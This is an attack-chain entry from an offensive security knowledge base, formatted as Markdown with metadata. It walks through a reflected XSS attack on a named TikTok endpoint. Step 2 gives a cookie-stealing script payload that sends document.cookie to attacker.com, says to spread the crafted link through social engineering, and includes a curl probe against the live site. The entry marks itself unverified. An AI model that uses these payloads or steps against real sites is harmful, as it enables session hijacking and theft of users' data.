

---
tags:
  - xss
  - reflected-xss
  - web
  - script-injection
  - session-hijacking
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-Reflected-XSS-Endpoint]]'
  - '[[procedures/Exploit-Reflected-XSS-for-Script-Injection]]'
step_count: 2
techniques:
  - '[[JavaScript]]'
updated_at: '2025-12-14T00:11:15.801Z'
description: >-
  A multi-stage attack exploiting a reflected XSS vulnerability on
  m.tiktok.com's Ambassador Manage endpoint to inject malicious JavaScript,
  leading to potential session hijacking and data theft.
skill_level: intermediate
impact_level: high
id: 34e9309e-1cd2-43f4-959d-053920359d1f
validated: true
mitre_tactics:
  - '[[Execution]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Reflected XSS in TikTok Ambassador Manage Endpoint for Script Injection and Session Hijacking

Multi-stage attack chain demonstrating exploitation of a reflected cross-site scripting vulnerability on the m.tiktok.com Ambassador Manage endpoint to inject and execute arbitrary JavaScript in victims' browsers, enabling session hijacking, data exfiltration, or phishing attacks.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for payload testing
- Proxy tool like Burp Suite for request manipulation

### Target Environment

- Web platform
- Access to m.tiktok.com Ambassador Manage endpoint
- No specific ports required; standard HTTPS (443)

### Initial Access Requirements

- Public access to the web application
- Ability to craft and send HTTP requests
- Victim interaction (e.g., clicking a malicious link)

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Identify-Reflected-XSS-Endpoint]]

**Objective**: Locate the input parameter in the Ambassador Manage endpoint that reflects user input without proper sanitization, allowing script injection.

**Instructions**: Navigate to m.tiktok.com and interact with the Ambassador Manage functionality. Use browser developer tools or a proxy to inspect requests. Test parameters like search fields or form inputs with benign payloads such as "<script>alert('test')</script>" to check for reflection.

**Expected Output**: The payload appears unsanitized in the response, confirming reflection.

**Success Indicators**:
- Input reflected in HTML without encoding
- Alert or script execution on payload submission

### Step 2: Exploit Reflected XSS for Script Injection
procedure: [[procedures/Exploit-Reflected-XSS-for-Script-Injection]]

**Objective**: Craft and deliver a malicious payload to execute arbitrary JavaScript in the victim's browser context, enabling session theft or data exfiltration.

**Instructions**: Once the vulnerable parameter is identified (e.g., a query parameter like ?search=), encode a payload such as <script>document.location='http://attacker.com/steal?cookie='+document.cookie</script> and append it to the URL. Share the link via social engineering. Use [[commands/curl-xss-payload]] to simulate sending the request:

```bash
curl -X GET "https://m.tiktok.com/ambassador/manage?search=<script>alert('xss')</script>" -v
```

Monitor the attacker's server for exfiltrated data.

**Expected Output**: JavaScript executes in the browser, sending cookies or data to the attacker.

**Success Indicators**:
- Script alert or network request to attacker server
- Captured victim session data

## Attack Chain Summary

### Key Achievements

1. Identified reflected XSS in Ambassador Manage endpoint
2. Injected and executed malicious JavaScript
3. Demonstrated potential for session hijacking and data theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
